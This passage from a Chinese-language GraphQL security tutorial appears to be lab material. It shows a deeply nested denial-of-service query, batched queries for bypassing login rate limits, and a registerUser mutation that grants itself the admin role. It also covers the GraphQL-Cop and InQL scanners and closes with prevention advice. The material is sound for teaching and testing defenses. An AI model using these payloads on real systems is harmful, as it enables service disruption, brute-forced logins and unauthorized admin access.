                  node {
                    author {
                      posts {
                        edges {
                          node {
                            author {
                              posts {
                                edges {
                                  node {
                                    author {
                                      posts {
                                        edges {
                                          node {
                                            author {
                                              posts {
                                                edges {
                                                  node {
                                                    author {
                                                      posts {
                                                        edges {
                                                          node {
                                                            author {
                                                              posts {
                                                                edges {
                                                                  node {
                                                                    author {
                                                                      username
                                                                    }
                                                                  }
                                                                }
                                                              }
                                                            }
                                                          }
                                                        }
                                                      }
                                                    }
                                                  }
                                                }
                                              }
                                            }
                                          }
                                        }
                                      }
                                    }
                                  }
                                }
                              }
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```




### 5.2 批量攻击

GraphQL 中的批量处理是指使用单个请求执行多个查询。我们可以通过在 HTTP 请求中直接提供 JSON 列表中的多个查询来实现这一点。例如，我们可以在一个请求中查询 admin 用户的 ID 和第一篇帖子的标题：

```http
POST /graphql HTTP/1.1
Host: 172.17.0.2
Content-Length: 86
Content-Type: application/json

[
    {
        "query":"{user(username: \"admin\") {uuid}}"
    },
    {
        "query":"{post(id: 1) {title}}"
    }
]

```

响应中包含所请求的信息，其结构与我们提供的查询结构相同：

批量处理并非安全漏洞，而是一项可启用或禁用的预期功能。然而，如果 GraphQL 查询用于用户登录等敏感流程，则批量处理可能会导致安全问题。由于批量处理允许攻击者在单个请求中发送多个 GraphQL 查询，因此攻击者可以利用它以更少的 HTTP 请求发起暴力破解攻击。这可能导致绕过为防止暴力破解攻击而设置的安全措施，例如速率限制。

例如，假设一个 Web 应用程序使用 GraphQL 查询进行用户登录。GraphQL 端点受到速率限制，每秒仅允许五个请求。攻击者只能以每秒五个密码的速度暴力破解用户帐户。然而，利用 GraphQL 批处理，攻击者可以将多个登录查询放入单个 HTTP 请求中。假设攻击者构建了一个包含 1000 个不同 GraphQL 登录查询的 HTTP 请求，那么攻击者现在每秒可以暴力破解多达 5000 个密码，从而使速率限制失效。因此，GraphQL 批处理可以实现强大的暴力破解攻击。


## 6.Mutations

我们讨论了 GraphQL 查询的各种基本元素。但是，您可能已经注意到，我们只讨论了读取数据的方法。与 REST API 类似，GraphQL 也提供了一种修改数据的方法： mutations 。

### 6.1什么是mutations?

Mutation 是 GraphQL 查询，用于修改服务器数据。它们可用于创建新对象、更新现有对象或删除现有对象。

首先，我们来识别后端支持的所有变更及其参数。我们将使用以下内省查询：

```graphql
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }
        }
      }
    }
  }
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
```

从结果中，我们可以识别出一个 registerUser mutation，它大概允许我们创建新用户。该 mutation 需要一个 RegisterUserInput 对象作为输入：

现在我们可以使用以下内省查询来查询 RegisterUserInput 对象的所有字段，从而获取我们可以在 mutation 中使用的所有字段：

```graphql
{   
  __type(name: "RegisterUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

从结果可以看出，我们可以提供新用户的 username 、 password 、 role 和 msg ：



正如我们之前提到的，我们需要提供 MD5 哈希形式的密码。要对密码进行哈希处理，我们可以使用以下命令：

```bash
$ echo -n 'password' | md5sum

5f4dcc3b5aa765d61d8327deb882cf99  -
```

有了哈希密码，我们现在终于可以通过运行 mutation 来注册新用户了：

```
mutation {
  registerUser(input: {username: "vautia", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "user", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

结果包含了我们在 mutation 主体中查询的字段，以便我们可以检查错误：

现在我们可以使用新注册的用户账号成功登录应用程序了。

### 6.2 Mutations漏洞利用

为了通过Mutations识别潜在的攻击途径，我们必须彻底检查所有支持的Mutations及其对应的输入。在本例中，我们可以为新注册的用户提供 role 参数，这可能使我们能够创建具有与默认角色不同的角色的用户，从而有可能提升权限。

我们通过查询所有现有用户确定了 user 和 admin 角色。现在让我们创建一个具有 admin 角色的新用户，并检查这是否允许我们访问位于 /admin 内部管理端点。我们可以使用以下 GraphQL mutation：

```graphql
mutation {
  registerUser(input: {username: "vautiaAdmin", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "admin", msg: "Hacked!"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

结果显示， admin 角色被赋予，这表明攻击成功了：



登录后，我们现在可以访问管理员端点，这意味着我们已经成功提升了权限：



## 7.自动化工具

我们之前已经讨论过一些可以帮助我们进行枚举阶段的工具： [graphw00f](https://github.com/dolevf/graphw00f) 和 [graphql-voyager](https://github.com/graphql-kit/graphql-voyager) 。现在我们将讨论更多可以帮助我们攻击 GraphQL API 的工具。

### 7.1GraphQL-Cop

我们可以使用[ GraphQL-Cop 工具](https://github.com/dolevf/graphql-cop)，它是一款用于 GraphQL API 的安全审计工具。克隆 GitHub 仓库并安装所需的依赖项后，我们就可以运行 graphql-cop.py Python 脚本了：

```bash
$ python3 graphql-cop.py  -v

version: 1.13

```

然后我们可以使用 -t 标志指定 GraphQL API 的 URL。GraphQL-Cop 随后会执行多项基本安全配置检查，并列出所有已识别的问题，这为进一步的手动测试提供了极佳的基准：

```bash
$ python3 graphql-cop/graphql-cop.py -t http://172.17.0.2/graphql

[HIGH] Alias Overloading - Alias Overloading with 100+ aliases is allowed (Denial of Service - /graphql)
[HIGH] Array-based Query Batching - Batch queries allowed with 10+ simultaneous queries (Denial of Service - /graphql)
[HIGH] Directive Overloading - Multiple duplicated directives allowed in a query (Denial of Service - /graphql)
[HIGH] Field Duplication - Queries are allowed with 500 of the same repeated field (Denial of Service - /graphql)
[LOW] Field Suggestions - Field Suggestions are Enabled (Information Leakage - /graphql)
[MEDIUM] GET Method Query Support - GraphQL queries allowed using the GET method (Possible Cross Site Request Forgery (CSRF) - /graphql)
[LOW] GraphQL IDE - GraphiQL Explorer/Playground Enabled (Information Leakage - /graphql)
[HIGH] Introspection - Introspection Query Enabled (Information Leakage - /graphql)
[MEDIUM] POST based url-encoded query (possible CSRF) - GraphQL accepts non-JSON queries over POST (Possible Cross Site Request Forgery - /graphql)
```

### 7.2 InQL

[InQL ](https://github.com/doyensec/inql)是一个 Burp 扩展，我们可以通过 Burp BApp Store 安装它。安装成功后，Burp 中会添加一个 InQL 标签页。

此外，该扩展程序还在代理历史记录和 Burp Repeater 中添加了 GraphQL 选项卡，使用户能够轻松修改 GraphQL 查询，而无需处理复杂的 JSON 语法：

此外，我们可以右键单击 GraphQL 请求并选择 Extensions > InQL - GraphQL Scanner > Generate queries with InQL Scanner ：

之后，InQL 会生成内省信息。所有Mutations和查询的相关信息都会显示在被扫描主机的 InQL 选项卡中：



这只是 InQL 功能的基本概述。更多详情请查看[官方 GitHub 代码库](https://github.com/portswigger/inql) 。

## 8.预防

在讨论了如何攻击由配置错误的 GraphQL 实现引起的各种漏洞之后，让我们讨论一下如何缓解这些漏洞。

为防止信息泄露漏洞，应遵循通用的安全最佳实践。这些实践包括避免显示冗长的错误信息，而应显示通用的错误信息。此外，内省查询是获取信息的强大工具，因此应尽可能禁用。至少，应检查内省查询中是否泄露了任何敏感信息。如果发现泄露，则必须删除所有敏感信息。

必须实施适当的输入验证检查，以防止任何注入型攻击，例如 SQL 注入、命令注入或 XSS 攻击。用户提供的任何数据在经过适当的清理之前都应视为不可信数据。应优先使用允许列表而非拒绝列表。

如前所述，拒绝服务攻击 (DoS) 和通过批处理放大暴力破解攻击是常见的 GraphQL 攻击途径。需要实施适当的限制来缓解此类攻击。这包括限制 GraphQL 查询深度或最大查询长度，以及限制 GraphQL 端点的速率，以防止快速连续执行多个查询。此外，应尽可能禁用 GraphQL 查询中的批处理功能。如果必须使用批处理，则需要限制查询深度。

为防止进一步的攻击，例如针对不当访问控制（例如 IDOR）的攻击或因变更操作授权检查不当而导致的攻击，应遵循通用的 API 安全最佳实践。这些最佳实践包括基于最小权限原则的严格访问控制措施。特别是，GraphQL 端点应尽可能仅在成功身份验证后才能访问，并应符合 API 的使用场景。此外，必须实施授权检查，以防止参与者执行未经授权的查询或变更操作。

有关保护 GraphQL API 的更多详细信息，请查看 OWASP 的 [GraphQL 速查表](https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html) 。
